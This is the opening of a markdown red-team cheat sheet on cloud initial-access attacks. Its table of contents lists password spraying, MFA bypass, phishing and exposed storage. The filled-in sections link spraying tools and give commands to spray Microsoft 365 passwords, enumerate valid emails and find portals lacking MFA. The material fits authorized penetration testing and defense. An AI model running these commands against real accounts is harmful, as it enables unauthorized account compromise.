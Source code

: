# Initial access attacks

* [Password and credentials attacks](#Password--and-credentials-attacks)
  * [Password spraying](#Password-spraying)
  * [Bypass MFA](#Bypass-MFA)
  * [Key disclosure in public repositories](#Key-disclosure-in-public-repositories)
  * [Reused access](#Reused-access)
  * [AWS Instance Metadata](#AWS-Instance-Metadata)
* [Web-Application Vulnerabilities](#Web-application-vulnerabilities)
  * [Insecure file upload](#Insecure-file-upload)
  * [Server Side Template Injection](#Server-Side-Template-Injection)
  * [OS Command injection](#OS-Command-injection)
* [Phishing](#Phishing)
  * [Teams](#Teams)
  * [Evilginx2](#Evilginx2)
  * [Illicit Consent Grant](#Illicit-Consent-Grant)
  * [Email Spoofing](#Email-spoofing)
  * [Azure Device Code](#Azure-Device-Code)
    * [Dynamic device code phishing](#Dynamic-device-code-phishing)
  * [Google workspace calendar event injection](#Google-workspace-calendar-event-injection)
* [Public storage](#public-storage)
  * [Azure storage accounts](#Azure-storage-accounts)
  * [AWS blobs](#AWS-blobs)
  * [Google Storage Buckets](#Google-Storage-Buckets)
* [Misc](#misc)

## Password and credentials attacks
### Password spraying
- https://github.com/dafthack/MSOLSpray
- https://github.com/ustayready/fireprox
- Also possible with https://github.com/0xZDH/o365spray
```
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList validemails.txt -Password <PASSWORD> -Verbose
```

#### Find valid emails Azure
- Explained in Recon or use the command below
```
C:\Python27\python.exe o365creeper.py -f emails.txt -o validemails.txt
```

#### Trevorspray
- https://github.com/blacklanternsecurity/TREVORspray

### Bypass mfa
#### MFAsweep
- Checks for portals which doesn't enforce mfa
- https://github.com/dafthack/MFASweep
```
Invoke-MFASweep -Username <EMAIL> -Password <PASSWORD>
```
